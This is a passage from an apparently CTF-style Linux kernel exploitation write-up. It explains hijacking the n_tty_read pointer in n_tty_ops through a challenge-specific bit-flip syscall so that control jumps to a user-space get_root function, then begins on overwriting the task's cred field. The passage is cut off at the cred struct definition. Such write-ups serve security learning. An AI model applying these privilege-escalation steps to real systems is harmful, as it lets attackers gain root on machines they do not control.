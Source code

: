 the function pointers in the struct are also global variables, which is easy for us to hijack with KALSR disabled. So here we can hijack the *n_tty_read* in the *n_tty_ops*, overwrite it to our user space code. The tty_read operation can be triggered simply by a *scanf()*.



### overwriting *n_tty_ops*

the address of *n_tty_ops* struct and *n_tty_read* are read from *kallsyms*, we can overwrite the *.write* field by calling the syscall *flitbip*, implemented as follow

```c
unsigned long diff;
    diff = n_tty_read ^ (unsigned long)get_root;
    for(int i=0;i<64;i++){
        if(diff & (((unsigned long)1)<<i)){
            flitbip((void*)n_tty_ops_read, i);
        }
    }
```



### overwriting the *cred* field in current *task_struct*

*task_struct* is define as

```c
struct task_struct {
#ifdef CONFIG_THREAD_INFO_IN_TASK
	struct thread_info		thread_info;
#endif
	volatile long			state;

	randomized_struct_fields_start

	void				*stack;
	atomic_t			usage;
    
    .....
        
    /* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;
    
    /* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;
    
    /* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;
    
    .....
}
```

the *cred* field point to a *cred* struct, which is defined as
